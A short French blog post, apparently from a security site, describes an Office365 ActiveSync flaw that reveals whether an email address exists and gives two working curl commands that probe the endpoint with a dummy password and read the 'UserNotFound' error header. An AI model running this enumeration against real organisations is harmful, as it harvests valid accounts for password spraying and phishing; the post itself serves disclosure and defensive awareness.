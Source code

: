```yaml
---
layout: post
title: Office365 / Fuite de données - Énumération d'adresses mail valides
tags: [Office365, Sécurité, Cloud]
---
```


Le service ActiveSync d'Office365 présente une faille permettant de vérifier la validité des adresses mail d'un domaine (si l'adresse mail est utilisée en tant qu'identifiant). Les retours HTTP sont en effet différents en fonction de l'existence ou non d'un identifiant spécifique.

Ce problème a initialement été signalé ici : [https://www.sec-1.com/blog/2017/office365-activesync-username-enumeration](https://www.sec-1.com/blog)

Prévenu par l'auteur fin juin 2017, Microsoft n'a pas jugé ce problème suffisamment critique pour prévoir un correctif.

L'url ActiveSync d'Office365 (https://outlook.office365.com/Microsoft-Server-ActiveSync) ne semble par ailleurs pas être protégée par un système de throttling permettant d'éviter les requêtes trop nombreuses sur une période donnée, ce qui laisse la porte ouverte à une exploitation massive.

## Exemples

**Adresse e-mail valide (prenom.nom@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom@mondomaine.fr:motdepassebidon' | base64); curl -v -X OPTIONS \
-H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
<pas de retour>
```

**Adresse e-mail inexistante (prenom.nom.bidon@mondomaine.fr)**

```bash
$ auth=$(echo -n 'prenom.nom.bidon@mondomaine.fr:motdepassebidon' | base64); curl -v \
-X OPTIONS -H "OPTIONS /Microsoft-Server-ActiveSync HTTP/1.1" -H "Host: outlook.office365.com" \
-H "Connection: close" -H "MS-ASProtocolVersion: 14.0" -H "Content-Length: 0" \
-H "Authorization: Basic $auth" https://outlook.office365.com/Microsoft-Server-ActiveSync \
2>&1 | grep "X-CasErrorCode"
< X-CasErrorCode: UserNotFound
```
